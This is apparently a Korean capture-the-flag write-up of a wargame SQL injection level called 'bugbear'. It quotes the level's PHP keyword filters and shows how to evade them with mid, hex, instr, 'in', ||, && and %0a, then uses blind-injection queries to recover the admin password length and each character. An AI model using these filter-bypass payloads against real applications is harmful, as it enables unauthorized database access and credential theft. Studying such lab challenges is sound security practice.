 <img width="200" alt="스크린샷 2020-01-19 오전 12 45 09" src="https://user-images.githubusercontent.com/54495632/72677825-d001fd80-3ae3-11ea-9aae-63c06c7c454a.png">



13번 bugbear



<img width="799" alt="스크린샷 2020-01-19 오전 12 45 19" src="https://user-images.githubusercontent.com/54495632/72677834-d8f2cf00-3ae3-11ea-9c0b-f33a8ad5e10a.png">



if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");

pw , no 에서 공통적으로 작은 따옴표가 필터링 된다. -> " 쌍 따옴표 이용.
no에서는 substr ascii = or and 공백 like 0x 가 필터링된다.

subset - mid함수를 이용했고

ascii - 필터링되면 ord 를 이용할 수 있지만 or도 필터링 처리 되어 hex함수를 이용했다.

= 등호와 like가 필터링 되어 우회하는 방법을 찾아보니

instr 함수를 이용하는 방법이 있었다.
instr(string $str,string $substr)

ex) instr(id,"admin)

또는 in 연산자를 이용하여
id in ("admin") 과 같이 사용할 수 있다.

or - || , and - && 와 같이 필터링을 우회한다.
공백 - %0a , 방법등은 많다.



<img width="882" alt="스크린샷 2020-01-19 오전 1 04 18" src="https://user-images.githubusercontent.com/54495632/72677910-81089800-3ae4-11ea-95a9-d46c9fb0bbb8.png">



pw='' and no=""||id in ("admin")&&length(pw)<9&&length(pw)>7 과 같이 쿼리를 주면
부등호와 &&를 이용하여 = 대신 사용할 수 있다. pw의 길이는 8이다.



<img width="826" alt="스크린샷 2020-01-19 오후 7 13 17" src="https://user-images.githubusercontent.com/54495632/72679185-2117ee80-3af0-11ea-9c11-140a1c8c21d1.png">



pw='' and no=""||id in ("admin")&&mid(pw,1,1) in (char(53))
와 같은 쿼리를 URL로 입력하여 pw의 각 글자를 유추할 수 있다.
= 등호 대신 in 를 이용하고 char을 이용하였다.

mid로 나오는 각 문자열 한글자 씩을 char 함수를 이용해 문자 자체를 비교하여
각 pw 자리값을 찾는다.



<img width="244" alt="스크린샷 2020-01-19 오후 7 25 57" src="https://user-images.githubusercontent.com/54495632/72679380-f7f85d80-3af1-11ea-8e66-37d69c10ba86.png">



